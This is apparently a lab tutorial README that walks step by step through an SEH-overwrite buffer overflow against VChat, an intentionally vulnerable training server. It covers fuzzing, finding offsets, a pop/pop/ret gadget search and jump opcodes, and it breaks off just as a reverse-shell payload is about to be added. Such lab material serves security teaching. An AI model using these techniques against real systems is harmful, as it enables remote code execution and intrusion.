# VChat GMON Exploit: Structure Exception Handling
> [!NOTE]
> - The following exploit and its procedures are based on an original [Blog](https://fluidattacks.com/blog/vulnserver-gmon/) from fluid attacks.
> - Disable Windows *Real-time protection* at *Virus & threat protection* -> *Virus & threat protection settings*.
> - Don't copy the *$* sign when copying and pasting a command in this tutorial.
> - Offsets may vary depending on what version of VChat was compiled, the version of the compiler used, and any compiler flags applied during the compilation process.
___

Not all buffer overflows will be capable of directly overflowing the return address to modify the `eip` register in order to gain control of the flow of execution without raising an exception that causes us to never reach the `RETN` instruction. So, how do we account for this? When exploiting a Windows system, we may be able to use the behavior of the [Structured Exception Handling](https://learn.microsoft.com/en-us/cpp/cpp/structured-exception-handling-c-cpp?view=msvc-170) (SEH) feature provided by Microsoft that allows for languages like C to have a common exception handling paradigm; namely the `try-catch-finally` blocks.

> [!IMPORTANT]
> Please set up the Windows and Linux systems as described in [SystemSetup](./SystemSetup/README.md)!
## Structured Exception Handling
Structured Exception Handing, as the name implies, is an exception handling procedure used to process possibly fatal exceptions raised at the runtime of a process. That is, SEH is used to examine and respond to some event raised by the program in the same scope or some external but related scope to the current function. Exceptions could be a failure during a system call due to unavailable resources, some runtime error, or even simple arithmetic errors such as a divide by zero exception. The features provided by SEH on a Windows system allow us to create a chain of exception handlers in C or C++ programs that can process an exception before it reaches the default handler. The entire SEH process is thread-specific, so it is possible for multiple threads within the same process to have different SEH chains to handle the exceptions unique to each executing thread. We can define a basic set of handlers in addition to those used by default with a `try-catch-finally` block, as shown below.

```c
int main()
{
    __try
    {
        TestExceptions();
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
        printf("Executing SEH __except block\n");
    }

    return 0;
}
```
* `__try`: If the code located within a **__try** block raises an exception (C++ or non-C++ Exception), if a paired **__except** block matches the raised exception it will be executed. Otherwise, the exception is propagated further down the chain.
* `__except`: This is an exception handler. We may define the types of exceptions this block handles. When a paired **__try** block raises an exception, if it matches those defined for the **__except** block, it will be executed.

Each SEH entry or *record* is stored on the stack of the currently executing thread in a linked list format. Each entry known as a `_EXCEPTION_REGISTRATION_RECORD` contains two pointers: one to the next entry in the SEH chain, and the other is a pointer to an exception handler. The system can tell if we have reached the default handler's entry when the *next* entry has the value `0xFFFFFFFF`. If no other handlers are found to process the raised exception while traversing the chain, the default handler will eventually be invoked. Below is the structure used to define a SEH entry:

```
typedef struct _EXCEPTION_REGISTRATION_RECORD
{
  /* 0x0000 */ struct _EXCEPTION_REGISTRATION_RECORD* Next;
  /* 0x0008 */ void* Handler /* function */;
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD; /* size: 0x0010 */
```
> [!NOTE]
> The annotated sizes are for a 64-bit system as the [referenced code](https://github.com/ntdiff/headers/blob/master/Win10_1507_TS1/x64/System32/hal.dll/Standalone/_EXCEPTION_REGISTRATION_RECORD.h) is pertaining to a 64-bit Windows-10 system, in a 32-bit system each pointer takes only 4-bytes rather than the 8-bytes a pointer in a 64-bit system would occupy.

As these entries are stored on the stack, if our overflow is positioned in such a way, we can overflow the SEH entry on the stack. If we were to raise an exception, we could gain control of the process's execution flow even if we cannot successfully overflow the return address.

> [!IMPORTANT]
> We have additional details about SEH and the defenses Microsoft has implemented to prevent this exploitation in [VChat_SEH](https://github.com/DaintyJet/VChat_SEH/blob/main/README.md).
## VChat Setup and Configuration
This section covers the compilation process, and use of the VChat Server. We include instructions for both the original VChat code which was compiled with MinGW and GCC on Windows, and the newly modified code that can be compiled with the Visual Studio C++ compiler.

### Visual Studio
<details>

1. Open the [Visual Studio project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/DLL/Essfun) for the *essfunc* DLL.
2. Build the project, as this contains inline assembly the target DLL file must be compiled as a x86 DLL (32-bits).
3. Copy the Resulting DLL from the *Debug* folder in the [Essfunc Project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/DLL/Essfun/Debug) into the *Debug* folder in the [VChat Project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/EXE/VChat/Debug).

	

4. Open the [Visual Studio project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/EXE/VChat) for the *VChat* EXE.
5. Build the Project; our executable will be in the *Debug* folder. You can then launch the executable!

</details>

### Mingw/GCC
<details>

Compile VChat and its dependencies if they have not already been compiled. This is done with mingw.

1. Create the essfunc object File.
	```powershell
	# Compile Essfunc Object file
	$ gcc.exe -c essfunc.c
	```
2. Create the [DLL](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library) containing functions that will be used by the VChat.
	```powershell
	# Create a DLL with a static (preferred) base address of 0x62500000
	$ gcc.exe -shared -o essfunc.dll -Wl,--out-implib=libessfunc.a -Wl,--image-base=0x62500000 essfunc.o
	```
      * ```-shared -o essfunc.dll```: We create a DLL "essfunc.dll", these are equivalent to the [shared library](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html) in Linux.
      * ```-Wl,--out-implib=libessfunc.a```: We tell the linker to generate an import library "libessfunc.a" [2].
      * ```-Wl,--image-base=0x62500000```: We specify the [Base Address](https://learn.microsoft.com/en-us/cpp/build/reference/base-base-address?view=msvc-170) as ```0x62500000``` [3].
      * ```essfunc.o```: We build the DLL based off of the object file "essfunc.o".
3. Compile the VChat application.
	```powershell
	# Compile and Link VChat
	$ gcc.exe vchat.c -o vchat.exe -lws2_32 ./libessfunc.a
	```
      * ```vchat.c```: The source file is "vchat.c".
      * ```-o vchat.exe```: The output file will be the executable "vchat.exe".
      * ```-lws2_32 ./libessfunc.a```: Link the executable against the import library "libessfunc.a", enabling it to use the DLL "essfunc.dll".

</details>

## Exploit Process
The following sections cover the process that should (Or may) be followed when performing this exploitation on the VChat application. It should be noted that the [**Dynamic Analysis**](#dynamic-analysis) section makes certain assumptions, such as having access to the application binary that may not be realistic in cases where you are exploiting remote servers; however, the enumeration and exploitation of generic Windows, and Linux servers to get the binary from a remote server falls outside of the scope of this document.

> [!IMPORTANT]
> The offsets shown in the following screenshots may differ from those used in the python and ruby code in this repository. This is because the offsets change slightly between the Windows 10 version of VChat compiled with GCC and the Windows 11 version compiled with the Visual Studio compiler.

### Information Collecting
We want to understand the VChat program and how it works in order to effectively exploit it. Before diving into the specific of how VChat behaves the most important information for us is the IP address of the Windows VM that runs VChat and the port number that VChat runs on.

1. **Windows** Launch the VChat application.
	* Click on the Icon in File Explorer when it is in the same directory as the essfunc DLL.
2. (Optional) **Linux**: Run NMap.
	```sh
	# Replace the <IP> with the IP of the machine.
	$ nmap -A <IP>
	```
   * We can think of the "-A" flag like the term aggressive as it does more than the normal scans, and is often easily detected.
   * This scan will also attempt to determine the version of the applications; this means when it encounters a non-standard application such as *VChat*, it can take 30 seconds to 1.5 minutes, depending on the speed of the systems involved, to finish scanning. You may find the scan ```nmap <IP>``` without any flags to be quicker!
   * Example results are shown below:

		

3. **Linux**: As we can see the port ```9999``` is open, we can try accessing it using **Telnet** to send unencrypted communications.
	```
	$ telnet <VChat-IP> <Port>

	# Example
	# telnet 127.0.0.1 9999
	```
   * Once you have connected, try running the ```HELP``` command. This will give us some information regarding the available commands the server processes and the arguments they take. This provides us with a starting point for our [*fuzzing*](https://owasp.org/www-community/Fuzzing) work.
   * Exit with ```CTL+]```.
   * An example is shown below.

		

4. **Linux**: We can try a few inputs to the *GMON* command and see if we can get any information. Type *GMON* followed by some additional input as shown below

	

	* Now, trying every possible combinations of strings would get quite tiresome, so we can use the technique of *fuzzing* to automate this process as discussed later in the exploitation section.

### Dynamic Analysis
This phase of exploitation involves launching the target application's binary or script and examining its behavior at runtime based on the input we provide. We want to construct the attack string and find out how we cause VChat to crash. We want to construct an attack string as follows: `padding-bytes|address-to-overwrite-return-address|shell-code`, where | means concatenation. Therefore, we want to know how many padding bytes are needed.

> [!IMPORTANT]
> If you have disabled exceptions for the [EggHunting](https://github.com/DaintyJet/VChat_GTER_EggHunter) exploit, that is we passed all exceptions through the debugger to the VChat process. You should uncheck those options so Immunity Debugger can catch the exceptions, allowing us to see the state of the program at a crash. See step 2 of the [Launch VChat](#launch-vchat) section!
#### Launch VChat
1. Open Immunity Debugger.

	

    * Note that you may need to launch it as an *Administrator* this is done by right-clicking the icon found in the Windows search bar or on the desktop as shown below:

	

2. Ensure Immunity Debugger will intercept exceptions raised by the process.
   1. Open the debugging options as shown below.

	   

   2. Open the Exception Options; if nothing is showing, select any other tab and then re-select Exceptions.

	   

   3. Ensure we uncheck all boxes.

	   

3. Attach VChat: There are two options!
   1. (Optional) When the VChat is already Running.
        1. Click File -> Attach.

			

		2. Select VChat.

			

   2. When VChat is not already Running -- This is the most reliable option!
        1. Click File -> Open, Navigate to VChat

			

        2. Click Debug -> Run.

			

        3. Notice that a Terminal was opened when you clicked "Open". Now you should see the program output in the newly opened terminal.

			

4. Ensure that the execution is not paused; click the red arrow (Top Left)

	

#### Examining SEH Chains
1. Launch Immunity Debugger and attach VChat to it.
2. Use Immunity Debugger to view the SEH Chain: Click View and select SEH chain as shown below.

   

   * This information is discovered by looking at the Processes Thread Environment Block (TEB).

3. Examine the SEH chain of the program.

   

   * We can see there are two entries. We may want to keep an eye on these as we Fuzz the VChat server!

#### Fuzzing
We use [boofuzz](https://boofuzz.readthedocs.io/en/stable/index.html) for fuzzing, in which methodologically generated random data is injected into the target. It is hoped that the random data will cause the target to perform erratically, for example, crash. If that happens, bugs are found in the target.

1. Open a terminal on the **Kali Linux Machine**.

Go into the boofuzz folder
```
┌──(kali㉿kali)-[~]
└─$ cd ~/boofuzz
```

Start a boofuzz virtual environment so that it does not interfere with other Pyhting settings.
```                                                                                                                                          
┌──(kali㉿kali)-[~/boofuzz]
└─$ source env/bin/activate
                                                                                                                                          
┌──(env)─(kali㉿kali)-[~/boofuzz]
└─$ 
```

2. Run the fuzzing script [boofuzzz_GMON.py](SourceCode/boofuzzz_GMON.py)

```
python boofuzzz_GMON.py
```
*boofuzzz_GMON.py* works as follows: builds a connection to the target, creates a message template with some fixed fields and a fuzzable field that will change, and then begins to inject the random data case by case into the target. One test case refers to one random message injected into the target.

3. Eventually vchat will crash. Immunity Debugger gives the string that crashes vchat. Find the string in the fuzzing log file.

I do feel it is a bit hard to identify which string actually crashes VChat. It appears even after VChat crashes, its port is still open, maybe because it takes time for the OS to clean the crashed VChat. In this case, it appears two test cases may crash VChat. Take a guess then and try!

#### Further Analysis
1. Generate a Cyclic Pattern. We do this so we can tell *where exactly* the SEH records are located on the stack. We can use the *Metasploit* script [pattern_create.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb) to generate this string. By analyzing the values stored in the SEH record's pointer, we can tell where in memory (the stack) a SEH record is stored.
	```
	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
	```
	* This will allow us to inject and overwrite the pointer to the SEH handler with a new address at its location.
2. Modify or create your exploit program to reflect the [exploit1.py](./SourceCode/exploit1.py) program to inject the cyclic pattern into the VChat program's stack and observe the SEH record's values.

	

3. Notice that the EIP register reads `75CB1B39`, but we can, in this case, see that the SEH record's handler was overwritten with `70453070`. We can use the [pattern_offset.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb) script to determine the address offset based on our search string's position in the pattern we sent to VChat.
	```
	$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 70453070
	```
	* This will return an offset as shown below. In this case, the offset is `3571`.

4. Now we can modify the exploit program to reflect the program [exploit2.py](./SourceCode/exploit2.py), and run the resulting exploit against VChat. If this is successful, we will have the SEH Record overflow and modify the handler's pointer to a series of `B`s. This allows us to crash the program when the overflow occurs and see if the register contains all `B`s; as that tells us we have successfully aligned our overflow.
   * We do this to validate that we have the correct offset for the SEH record!
   * See that the SEH handler is a series of the value `42` that is a series of Bs. This tells us that we can write an address to that location in order to change the control flow of the program when an exception occurs.
   * Note: Sometimes, it took a few runs for this to work and update on the Immunity debugger.

5. Now let's pass the exception to the program and see what happens, we can use the keybind `Shift+F7` to do this (This should be displayed at the bottom of the screen).

	

      * We can see that the `ESP` register (Containing the stack pointer) holds the address of `00BCED88`; however, an address related to our buffer is stored as `00BCED90`, which means we need to traverse 8-bytes before we reach a segment of the stack we control. *Remember* this is a 32-bit program!

6. We can use the fact that the extra 8 bytes is on the stack to our advantage and `pop` the extra data off into some register. The exact register does not matter, as we simply want to remove extra data from the stack. We can use `mona.py` to find a gadget that pops the two extra elements off the stack (8-bytes), which places the stack pointer `ESP` in the correct position for us to start executing the code we will inject into our buffer; Use the command `!mona seh -cp nonull -cm safeseh=off -o` in Immunity Debugger as shown below.

	

      * The `seh` command of *mona.py* finds gadgets to remove the extra 8-bytes before our buffer.
      * The `-cp nonull` flag tells *mona.py* to ignore null values.
      * The `-cp nonull -cm safeseh=off` flag tells *mona.py* to ignore safeseh modules (The program was not compiled for safe SEH).
      * The `-o` flag tells *mona.py* to ignore OS modules.

	

      * We can see there are quite several options; any one of them should work. For the examples, we will use the address `6250271B`.
	  * *Note*: If you do not see any output it may be hidden behind the one of the Immunity Debugger windows, you can open the `log` view.

7. Modify the exploit to reflect the [exploit3.py](./SourceCode/exploit3.py) script to verify that this SEH overwrite works. We do this to ensure that the SEH gadget is called and we have removed the two elements from the stack. This allows us to continue the exploitation process.
   1. Click on the black button highlighted below, and enter the address we decided in the previous step.

		

   2. Set a breakpoint at the desired address (right-click).

		

   3. Run the [exploit3.py](./SourceCode/exploit3.py) program till an overflow occurs (See SEH record change).
         * Notice that the SEH record's handler now points to an essfunc.dll address!

   4. Once the overflow occurs pass the exception using `Shift+F7` then click the *step into* button!
   
		

   5. Notice that we jumped to the stack that we just overflowed!


8. Notice where we have jumped to? This is slightly off as we jumped to the address stored in the first half of the SEH record! 

	

   * The available space is really not much. 

9. Now, we want to perform a Short Jump to avoid overwriting the SEH block. A short jump instruction is only 2 bytes and should give us enough space to perform a long jump to the start of the buffer. We should use the tool `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` to generate the machine code for this.
   * Run `nasm_shell.rb`. *Note* that it's path may differ on different machines!
   * enter `jmp short +0xa` to perform a short jump of 10 bytes.

	

10. Copy the output from the `nasm_shell.rb` (`EB08`) into the [exploit4.py](./SourceCode/exploit4.py) exploit script. We will use the NOP instructions to overwrite the SEH handler's address. This allows us to differentiate it from the `A`s, however this could simple be replaced with `A`s as it does not affect the result of our exploit. This exploit file allows us to verify up to the short jump!
<!--(Makes it stand out?)-->

11. Run the program with a breakpoint set and observe its outcome. We should be able to see the Short Jump!

12. Now we can, as was done in the [GTER exploit](https://github.com/DaintyJet/VulserverAttacks/tree/main/03-GTER_ReusingSocketStack), perform a long jump to the start of the buffer! In this case the address of the starting point is `00BDF1DD` (This may vary!), and we can use this when providing Immunity Debugger an instruction to assemble so it can calculate the offset for us.

   1. Select the address we performed the short jumped to and right click it, select the assemble option as shown below.

	   

   2. Assemble the instruction and copy the result's hex value so we can insert it into our exploit code!
      * In this case the assembled instruction was `E9 46 F2 FF FF` Which will become `\xe9\x02\xf2\xff\xff`.
   3. After inserting the instruction and pressing "step into", we should see ourselves at the start of the buffer.

13. Modify the [exploit5.py](./SourceCode/exploit5.py) exploit script to have your new long `jmp` instruction, set a breakpoint at the `pop/pop/ret` SEH gadget and observe its behavior! We want to ensure we jump to the start of the buffer we have overflown.

   1. Observe the exploit hitting the `pop/pop/ret` gadget after passing the exception to the program.
   2. Observe the program hitting the short jump instruction.
   3. Observe the program hitting the long jump instruction.

Now that we have all the necessary parts for the creation of an exploit, we will add the shellcode to our payload and gain access to a reverse shell!

### Exploitation
